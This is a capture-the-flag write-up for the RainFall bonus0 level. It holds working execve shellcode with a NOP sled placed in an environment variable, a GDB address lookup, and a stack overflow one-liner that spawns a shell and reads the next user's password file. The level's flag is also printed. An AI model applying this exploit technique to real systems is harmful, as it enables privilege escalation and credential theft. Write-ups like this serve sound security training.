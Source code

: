 

##### export the shellcode in env variables
```
export CODE=`/bin/echo -ne "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"`
```
 
##### get the env variables in GDB`
`x/40s *((char **)environ)`
```
(gdb) x/40s *((char **)environ)
0xbffff894:	 "SHELL=/bin/bash"
0xbffff8a4:	 "TERM=xterm-256color"
...
0xbfffff60:	 "CODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220j\vX\231Rh//shh/bin\211\343\061\311̀"
...
```
- the address of the shellcode in ENV is ___0xbf.ff.ff.60___ which points to CODE=....
- we need the address to point into the ___NOPSLIDE___ so we will add a 8 bites ~0x8 to the address (___0xbfffff60 + 0x8 = 0xbfffff68___)
- ___0xbfffff68___ points to ___\x90___ ~ ___\220___

---
#### Exploit && Solution : 
- __arg1__ we fill the buffer ~ 20 : `12345123451234512345`
- __arg2__ we fill the EIP offset ~ 9 + address to shell code + rest of buffer , total = 20 : `A*9` + `4(address of shellcode)` + `8(rest to fill buffer)`

##### Buffer Arg2
```
* sca  = shellCodeAddr
* OEIP = Offset EIP
* RoB  = Rest of Buffer
|--------------------------20-------------------------------| \
|-------9---------|-------4--------|------------8-----------|  |=> BUFFER ARG2
|------OEIP-------|------sca-------|-----------RoB----------| /
```

`cat  <(echo -e "12345123451234512345\nAAAAAAAAA\x68\xff\xff\xbfBBBBCCCC\n") -|  ./bonus0`
---

```
bonus0@RainFall:~$ cat  <(echo -e "12345123451234512345\nAAAAAAAAA\x68\xff\xff\xbfBBBBCCCC\n") -|  ./bonus0
 -
 -
12345123451234512345AAAAAAAAAh���BBBBCCC�� AAAAAAAAAh���BBBBCCC��
whoami
bonus1
pwd
/home/user/bonus0
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9

```
---
bonus0 passed!

|`flag : cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9`
---
